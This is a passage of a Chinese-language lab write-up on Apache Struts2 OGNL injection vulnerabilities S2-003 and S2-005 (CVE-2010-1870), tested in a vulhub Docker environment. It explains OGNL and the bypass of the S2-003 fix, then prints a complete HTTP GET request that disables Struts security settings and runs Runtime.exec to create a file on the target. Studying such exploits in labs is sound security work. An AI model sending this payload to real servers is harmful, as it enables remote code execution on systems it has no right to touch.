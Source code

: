 ![image-20230608073652110](http://cdn.ayusummer233.top/DailyNotes/202306080736154.png)

然后回看 docker 容器 `/tmp` 目录, 可以看到多出了一个 success 文件

![image-20230608073723901](http://cdn.ayusummer233.top/DailyNotes/202306080737920.png)

![image-20230608073745615](http://cdn.ayusummer233.top/DailyNotes/202306080737645.png)

---


### s2-005 - CVE-2010-1870 RCE

S2-005和S2-003的原理是类似的，因为官方在修补S2-003不全面，导致用户可以绕过官方的安全配置(禁止静态方法调用和类方法执行) ，再次造成的漏洞，可以说是升级版的S2-005是升级版的S2-003。

----

OGNL 是 Object-Graph Navigation Language 的缩写，它是一个强大的表达式语言，用于获取和设置 Java 对象的属性。在 Apache Struts2 框架中，OGNL 用于数据传输和表达式求值。

OGNL 能做什么：

1. 访问对象的属性：OGNL 可以通过 . 运算符访问对象的属性。例如，对于一个名为 `user` 的对象，我们可以通过 `user.name` 获取其 `name` 属性的值。
2. 调用方法：OGNL 也可以调用对象的方法。例如，`user.getName()` 就可以调用 `user` 对象的 `getName()` 方法。
3. 操作集合：OGNL 提供了丰富的语法来操作集合对象，包括列表、映射和数组。
4. 执行条件和循环：OGNL 还支持 if/else 表达式、for 循环等控制结构。

在 Struts2 中，OGNL 的功能非常强大，不仅可以用于数据绑定，还可以用于表单验证、流程控制等。

然而，Struts2 中 OGNL 的使用也带来了一些安全问题。因为 OGNL 可以调用任意的 Java 方法，所以如果开发者没有正确地限制 OGNL 表达式的执行，攻击者可能会通过构造恶意的 OGNL 表达式，执行任意代码或访问敏感数据。这就是导致 Struts2 中多个 OGNL 注入漏洞的原因。

---

在 s2-003 中, struts2 会将 http 的每个参数名解析为 OGNL 语句执行(可理解为java代码)。OGNL表达式通过#来访问struts的对象，struts框架通过过滤#字符防止安全问题，然而通过unicode编码(\u0023)或8进制(\43)即绕过了安全限制，对于S2-003漏洞，官方通过增加安全配置(禁止静态方法调用和类方法执行等)来修补，但是安全配置被绕过再次导致了漏洞，攻击者可以利用OGNL表达式将这2个选项打开，S2-003的修补方案把自己上了一个锁，但是把锁钥匙给插在了锁头上

---

```bash
# 从 vulhub 仓库根目录进入 s2-005 目录
cd struts2/s2-005
# 使用 docker 启动环境(可以修改同级目录下的 docker-compose.yml 文件以更改端口映射行为, 默认 8080:8080, 这里改成了 8081:8080)
docker compose build
docker compose up -d
```

此时访问靶机 8081 端口的 web 服务可以看到如下页面:

![image-20230608164057182](http://cdn.ayusummer233.top/DailyNotes/202309141817123.png)

尝试向该页面发送一个 GET 请求并使用 OGNL 表达式来关闭安全配置并向靶机 `/tmp` 目录写入一个 `success` 文件

```http
GET /example/HelloWorld.action?(%27%5cu0023_memberAccess[%5c%27allowStaticMethodAccess%5c%27]%27)(vaaa)=true&(aaaa)((%27%5cu0023context[%5c%27xwork.MethodAccessor.denyMethodExecution%5c%27]%5cu003d%5cu0023vccc%27)(%5cu0023vccc%5cu003dnew%20java.lang.Boolean(%22false%22)))&(asdf)(('%5cu0023rt.exec(%22touch@/tmp/success%22.split(%22@%22))')(%5cu0023rt%5cu003d@java.lang.Runtime@getRuntime()))=1 HTTP/1.1
Host: 192.168.1.215:8081
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/57.0.2987.98 Safari/537.36

```
